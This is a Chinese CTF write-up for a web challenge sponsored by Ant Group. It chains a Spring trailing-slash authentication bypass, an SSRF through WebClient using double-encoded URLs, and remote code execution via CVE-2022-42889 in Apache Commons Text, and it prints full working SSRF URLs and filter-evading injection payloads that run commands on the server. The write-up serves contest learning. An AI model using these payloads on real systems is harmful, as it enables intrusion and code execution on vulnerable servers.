








# [Web] 企业级理解

- 命题人：蚂蚁集团（题面：xmcp）
- 赋能管理后台：150 分
- 盘活业务增长：150 分
- 打通整个系统：250 分

## 题目描述

<blockquote>
<p>本题（不含以下题面）由赞助商蚂蚁集团提供。</p>
</blockquote>
<p>大型企业的软件开发方式与开源项目是不同的。
只有拥有了大型企业特有的企业级理解，才能够更好地让产品为客户赋能，实现前端与后台的解耦，将需求对齐到场景的完整链路中，实现从底层到盈利层的打通……</p>
<p>有些企业选择了坚如磐石的 Java 8 语言，只有在数十亿设备上都能运行的环境才是稳定可靠的环境。</p>
<p>有些企业选择了历久弥新的 Spring Framework，毕竟只需要写几行配置就能为一个巨大的 Web App 增加自动生成的登录页面，工程师放心，产品经理也放心。</p>
<p>有些企业选择了让程序员用 A4 纸书面打印代码来考核工作量，因为 “Talk is cheap, show me your code.” 是每名科班程序员的信条。</p>
<p>有些企业选择了用毕业典礼欢送每一名员工，即将毕业的 You 酱心有不甘，摸了摸胸前的工牌，在会议室的桌上捡起了两张同事上周打印出来的代码，希望能够成为自己职业道路上的一份纪念。</p>
<p><ruby>你<rt>You</rt></ruby>，有着企业级理解吗？</p>
<p><strong>补充说明：</strong>本题不需要爆破密码。三个 Flag 分别需要绕过登录页面访问管理后台、访问本机上的 bonus 服务、通过 bonus 服务在机器上执行命令。</p>
<p><strong>注意：题目返回的 Flag 格式可能形如 <code>flag1{...}</code>，请改成 <code>flag{...}</code> 后提交。</strong></p>
<div class="well">
<p><strong>第二阶段提示：</strong></p>
<ul>
<li>Flag 1：很多 HTTP 框架都会在判断网址对应的 Endpoint 时去除网址结尾的斜杠。</li>
<li>Flag 2：可以通过 web 服务访问本机的 bonus 服务，以及别忘了源码是可以下载的。</li>
<li>Flag 3：“这确实不是漏洞，这是特性” —— Log4j 对他的好兄弟 Commons Text 点了一个赞。</li>
</ul>
</div>

**【网页链接：访问题目网页】**

**[【附件：下载部分题目源码（prob08-src.pdf）】](attachment/prob08-src.pdf)**

## 预期解法

以下是蚂蚁集团提供的 Writeup。

**1、登录绕过**

访问网站，映入眼帘的是一个登录页面



为了避免选手找不到入口，在 404 页面增加了一行注释，引导选手去尝试 /admin 路径



在`/admin`后增加一个`/`即可绕过鉴权



针对几个选项尝试一遍后便可得到` flag1`（记得接口后仍需要加上`/`进行绕过）



**2、Spring WebClient SSRF**

如果仔细查看页面源代码会发现有一处注释



访问`/admin/source_bak`会得到部分源码

```java
import org.springframework.web.reactive.function.client.WebClient;

@RestController
public class AdminController {

    WebClient webClient = WebClient.builder().baseUrl("http://localhost:8079/").build();

    @RequestMapping("/admin/{index}")
    public String adminIndex(@PathVariable(name="index") String index, String auth, QueryBean queryBean) {
        if (index != null & index.contains("%")) {
            index = URLDecoder.decode(index, "UTF-8");
        }
        if (queryBean.getType() == null) {
            queryBean.setType("PKU");
        }
        if (!typeList.contains(queryBean.getType())) {
            typeList.add(queryBean.getType());
        }

        Mono<String> str = webClient.post()
            .uri(index)
            .header(HttpHeaders.AUTHORIZATION, auth)
            .body(BodyInserters.fromFormData("type", queryBean.getType()))
            .retrieve().bodyToMono(String.class);

        return queryBean.setValue(str.block());
    }
}
```

这里考察选手对 Java 代码的熟悉程度，Spring WebClient 创建时虽然定义 baseUrl，但 `uri()` 处传入的参数若被用户完全控制，会产生 SSRF。

index 参数从请求路径中获取，直接传入 

`http://127.0.0.1/admin/%25%36%38%25%37%34%25%37%34%25%37%30%25%33%61%25%32%66%25%32%66%25%33%31%25%33%32%25%33%37%25%32%65%25%33%30%25%32%65%25%33%30%25%32%65%25%33%31%25%33%61%25%33%38%25%33%30%25%33%38%25%33%30`

URL 解码后 `http://127.0.0.1/admin/http://127.0.0.1:8080`

可访问到内网 8080 端口（该端口没有直接提示，需要选手根据源码中给出的 8079 推出，或尝试端口遍历）

得到端口列表

```
Endpoints:
/bonus
/source_bak
```

利用 SSRF 访问 `http://127.0.0.1:8080/bonus` 可以得到 `flag2`

`http://127.0.0.1/admin/%25%36%38%25%37%34%25%37%34%25%37%30%25%33%61%25%32%66%25%32%66%25%33%31%25%33%32%25%33%37%25%32%65%25%33%30%25%32%65%25%33%30%25%32%65%25%33%31%25%33%61%25%33%38%25%33%30%25%33%38%25%33%30%25%32%66%25%36%32%25%36%66%25%36%65%25%37%35%25%37%33`




**3、Apache Commons Text 远程代码执行**

利用 SSRF 访问 `http://127.0.0.1:8080/source_bak` 可以看到源码，这里需要根据源码审计漏洞

```java
import org.apache.commons.text.StringSubstitutor;

@RestController
public class BonusController {

    @RequestMapping("/bonus")
    public QueryBean bonus(QueryBean queryBean) {
        if(queryBean.getType().equals("CommonsText")) {
            StringSubstitutor interpolator = StringSubstitutor.createInterpolator();
            interpolator.setEnableSubstitutionInVariables(true);

            String value = replaceUnSafeWord(queryBean.getValue());
            String resultValue = interpolator.replace(value);
            queryBean.setValue(resultValue);

        } else {
            // flag3藏在/root/flag3.txt等待你发现
        }

        return queryBean;
    }

    public static String replaceUnSafeWord(String txt) {
        String resultTxt = txt;

        ArrayList<String> unsafeList = new ArrayList<String>(Arrays.asList("java", "js", "script", "exec", "start", "url", "dns", "groovy", "bsh", "eval", "ognl"));
        Iterator<String> iterator = unsafeList.iterator();
        String word;
        String replaceString;
        while (iterator.hasNext()) {
            word = iterator.next();
            replaceString = "";
            resultTxt = resultTxt.replaceAll("(?i)" + word, replaceString);
        }

        return resultTxt;
    }
}
```

根据关键词`CommonsText`可以得知是最近的 CVE-2022-42889 Apache Commons Text 漏洞。除此之外，这里过滤了一些关键字，需要构造绕过payload。

Apache Commons Text 漏洞和 Log4j 漏洞很像，绕过关键字拦截的方式也有很多。

以下是两个示例：

1、利用递归解析 `${}` 绕过

(POST) /admin/%25%36%38%25%37%34%25%37%34%25%37%30%25%33%61%25%32%66%25%32%66%25%33%31%25%33%32%25%33%37%25%32%65%25%33%30%25%32%65%25%33%30%25%32%65%25%33%31%25%33%61%25%33%38%25%33%30%25%33%38%25%33%30%25%32%66%25%36%32%25%36%66%25%36%65%25%37%35%25%37%33

type=CommonsText&value=${sc${::-r}ipt:jav${::-as}cript:new%20ja${::-v}a.io.BufferedReader(new%20ja${::-v}a.io.InputStreamReader(ja${::-v}a.lang.Runtime.getRuntime().e${::-x}ec('cat%20/root/flag3.txt').getInputStream(),'UTF-8')).readLine();}

2、使用Base64解码绕过

(POST) /admin/%25%36%38%25%37%34%25%37%34%25%37%30%25%33%61%25%32%66%25%32%66%25%33%31%25%33%32%25%33%37%25%32%65%25%33%30%25%32%65%25%33%30%25%32%65%25%33%31%25%33%61%25%33%38%25%33%30%25%33%38%25%33%30%25%32%66%25%36%32%25%36%66%25%36%65%25%37%35%25%37%33

type=CommonsText&value=${base64Decoder:JHtzY3JpcHQ6amF2YXNjcmlwdDpuZXcgamF2YS5pby5CdWZmZXJlZFJlYWRlcihuZXcgamF2YS5pby5JbnB1dFN0cmVhbVJlYWRlcihqYXZhLmxhbmcuUnVudGltZS5nZXRSdW50aW1lKCkuZXhlYygnY2F0IC9yb290L2ZsYWczLnR4dCcpLmdldElucHV0U3RyZWFtKCksICJVVEYtOCIpKS5yZWFkTGluZSgpO30=}

成功获取到 `flag3`




## 命题花絮（xmcp）

从蚂蚁那里要来的题目直接是几个 JAR 包，发现它写得有问题，前两个 flag 没法从磁盘上读取，而是直接 fallback 到了一个硬编码的结果。

无法读取的原因大概是它在读取的时候指定的编码是个空字符串，这个测试下来是无效的。



比较尴尬的是它 fallback 的值还是 `flag2{...}`，不符合平台的 flag 格式……因为懒得跟赞助商沟通了，就直接在题面里写了一句请注意修改 flag 格式完事。

顺便这题本来是没有附件的，我验题的时候发现这题脑洞有点多，选手不仅需要在 404 <del>Not Fount</del> 界面里翻 HTML 注释，还需要猜本机端口号，这要不是十年老赛棍，做起来肯定自闭。因此我就放了 Dockerfile 和 WebSecurityConfig.java 两个文件的源码，明示了后台 URL 和 bonus 服务的端口号，在 Flag 名称里稍微暗示了一下每一步大概要干什么<del>，然后为了让放附件的行为合理化，缝了很多烂梗给它造了一个题面</del>。

从比赛情况来看，果然还是有很多选手的脑洞不够用，尤其是不知道 Flag 2 要干什么。只能说在不改赞助商给的 JAR 的前提下，我已经尽力了。